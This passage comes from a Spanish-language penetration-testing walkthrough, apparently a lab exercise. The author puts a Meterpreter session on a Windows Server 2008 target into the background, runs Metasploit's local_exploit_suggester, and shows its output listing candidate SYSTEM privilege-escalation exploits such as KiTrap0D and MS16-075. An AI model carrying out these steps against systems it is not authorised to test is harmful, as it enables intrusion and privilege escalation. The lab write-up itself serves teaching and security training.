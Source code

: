 Vamos a dejarlo en segundo plano `Ctrl+Z` y dandole a `Y`, despues buscaremos lo siguiente:

```
use post/multi/recon/local_exploit_suggester
```

Lo configuraremos de la siguiente forma:

```shell
set SESSION <ID_SESSION>
set SHOWDESCRIPTION true
exploit
```

Info:

```
[*] 192.168.1.153 - Collecting local exploits for x86/windows...
[*] 192.168.1.153 - 198 exploit checks are being tried...
[+] 192.168.1.153 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The service is running, but could not be validated. Windows Windows Server 2008 build detected!
  This module exploits CVE-2020-0787, an arbitrary file move 
  vulnerability in outdated versions of the Background Intelligent 
  Transfer Service (BITS), to overwrite 
  C:\Windows\System32\WindowsCoreDeviceInfo.dll with a malicious DLL 
  containing the attacker's payload. To achieve code execution as the 
  SYSTEM user, the Update Session Orchestrator service is then 
  started, which will result in the malicious 
  WindowsCoreDeviceInfo.dll being run with SYSTEM privileges due to a 
  DLL hijacking issue within the Update Session Orchestrator Service. 
  Note that presently this module only works on Windows 10 and Windows 
  Server 2016 and later as the Update Session Orchestrator Service was 
  only introduced in Windows 10. Note that only Windows 10 has been 
  tested, so your mileage may vary on Windows Server 2016 and later.
[+] 192.168.1.153 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
  This module will create a new session with SYSTEM privileges via the 
  KiTrap0D exploit by Tavis Ormandy. If the session in use is already 
  elevated then the exploit will not run. The module relies on 
  kitrap0d.x86.dll, and is not supported on x64 editions of Windows.
[+] 192.168.1.153 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
  This module exploits improper object handling in the win32k.sys 
  kernel mode driver. This module has been tested on vulnerable builds 
  of Windows 7 x64 and x86, and Windows 2008 R2 SP1 x64.
[+] 192.168.1.153 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
  This module exploits the vulnerability in mrxdav.sys described by 
  MS16-016. The module will spawn a process on the target system and 
  elevate its privileges to NT AUTHORITY\SYSTEM before executing the 
  specified payload within the context of the elevated process.
[+] 192.168.1.153 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
  Module utilizes the Net-NTLMv2 reflection between DCOM/RPC to 
  achieve a SYSTEM handle for elevation of privilege. Currently the 
  module does not spawn as SYSTEM, however once achieving a shell, one 
  can easily use incognito to impersonate the token.
[+] 192.168.1.153 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
  This module exploits a vulnerability on EPATHOBJ::pprFlattenRec due 
  to the usage of uninitialized data which allows to corrupt memory. 
  At the moment, the module has been tested successfully on Windows XP 
  SP3, Windows 2003 SP1, and Windows 7 SP1.
[*] Running check method for exploit 42 / 42
[*] 192.168.1.153 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
```